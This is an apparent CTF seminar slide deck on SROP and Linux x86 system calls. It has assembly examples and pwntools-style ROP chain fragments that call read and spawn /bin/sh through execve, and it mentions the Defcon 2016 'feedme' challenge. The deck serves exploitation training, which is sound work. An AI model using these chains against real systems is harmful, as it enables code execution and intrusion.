


footer: © 2O2L2H Book/Seminar, 2017
slidenumbers: true

# [fit] SROP 

### June 8, 2017   2O2L2H/humb1ec0ding

```
/awesome-ctf-wargame/seminar/topic/srop
```

---
# [fit] Linux System Calls



- `int 80`
- system call number

---
# [fit] [Assembly System Calls](https://www.tutorialspoint.com/assembly_programming/assembly_system_calls.htm)



- `eax` : system call number
- `ebx` : file descriptor - `stdin/out/err`
- `ecx` : buffer
- `edx` : siz


---
# system call : assembly

```
mov eax,1   ; system call number (sys_exit)
int 0x80    ; call kernel

mov edx,4   ; message length
mov ecx,msg ; message to write
mov ebx,1   ; file descriptor (stdout)
mov eax,4   ; system call number (sys_write)
int 0x80    ; call kernel
```

---
# gadget for system call

- pop reg, ret
- int 0x80, ret

### Useful exploit

- open("flag"), read(buf,size,), write(buf, size, )
- execve("/bin/sh", NULL, NULL)
- [security - system() vs execve() - Stack Overflow](https://stackoverflow.com/questions/27461936/system-vs-execve)


---
## read(0, e.bss(), 0x8)

```
ex += p32(pop_eax)              # pop eax
ex += p32(0x3)                  # number of systemcall sys_read
ex += p32(pop_edx_edx_ebx_ret)  # pop edx/ecx/ebx
ex += p32(0x8)                  # size of stdin
ex += p32(elf.bss())            # buf for stdin
ex += p32(0)                    # fd of stdin
ex += p32(int0x80)              # invoke system calls in Linux on x86
```

---
## execve("/bin/sh",NULL, NULL)

```
ex += p32(pop_eax)              # pop eax
ex += p32(0xb)                  # number of systemcall sys_execve
ex += p32(pop_edx_edx_ebx_ret)  # pop edx/ecx/ebx
ex += p32(0)                    # third argument of execve : NULL
ex += p32(0)                    # second argument of execve : NULL
ex += p32(elf.bss())            # first argument of execve : buf
ex += p32(int0x80)              # invoke system calls
```

---
# [fit] Defcon 2016 feedme

- Canary : fork child, bruteforce
- SROP : static linked, stripped


